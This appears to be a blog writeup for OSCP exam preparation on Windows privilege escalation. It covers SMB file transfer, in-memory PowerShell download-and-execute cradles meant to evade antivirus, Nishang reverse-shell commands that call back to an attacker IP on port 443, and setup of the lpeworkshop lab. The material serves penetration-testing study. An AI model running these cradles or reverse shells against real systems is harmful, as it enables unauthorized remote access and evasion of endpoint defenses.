```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.

---

## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 

* Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).

* Start the SMB server by running `smbserver.py`:
![image-center](/assets/images/oscp/smbserver.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.

* All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:
![image-center](/assets/images/oscp/1/smbshared.png)

* For more convenience, this SMB share can be  mounted directly on the windows as a drive:

- Check currently mounted shares by running `net view`:

- Mount your `myshare` as drive `Z` (or anything else) using the command
`net use Z: \\192.168.25.131\myshare`
![image-center](/assets/images/oscp/1/smbmount.png)

- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.
[image-center](/assets/images/oscp/1/smbmount2.png)

- The mount can be disconnected with command `net use Z: /d` once you are done with it.

Another easy way to transfer files is over http using python's SimpleHTTPServer. We will take a look at it and download files using PowerShell in the following section.

---

## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.

1. Share your files using python's `SimpleHTTPServer` or Apache.
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/testfile'))"`
This downloads `testfile` and executes it in the memory.
![image-center](/assets/images/oscp/1/http2.png)

### Upgrading to PowerShell from cmd using Nishang

The Invoke-PowerShellTcp.ps1 can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive PowerShell.

### Method 1: Using HTTP to evade Antivirus

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.

1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.
![image-center](/assets/images/oscp/1/httpps1.png)

2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).

3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"`
![image-center](/assets/images/oscp/1/httpps2.png)

This sends an interactive reverse PowerShell to our kali on port 443:
![image-center](/assets/images/oscp/1/httpps3.png) 

### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 

1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver.
![image-center](/assets/images/oscp/1/smb1.png)

2. Start netcat listener on Kali.

3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"`
![image-center](/assets/images/oscp/1/smb2.png)

(Note: I disabled windows AV for this exercise)

This sends a fully interactive PowerShell to our kali on port 443:
![image-center](/assets/images/oscp/1/smb2.png)

---

### Powershell commands breakdown

Let's see the breakdown:
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:

1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
4. `"iex ((New-Object Net.WebClient).DownloadString('http://192.168.25.131/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
5. `Invoke-PowerShellTcp -Reverse -IPAddress 192.168.25.131 -Port 443"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.


## lpeworkshop
For the setup, we need three things:

1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 

2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)

3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)

---

## Setup

[Note: Take a snapshot of the windows VM before starting the setup]
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. 

---

## Additional resources

* https://hacknpentest.com/windows-privilege-escalation-using-powershell/
* https://github.com/J3rryBl4nks/LPEWalkthrough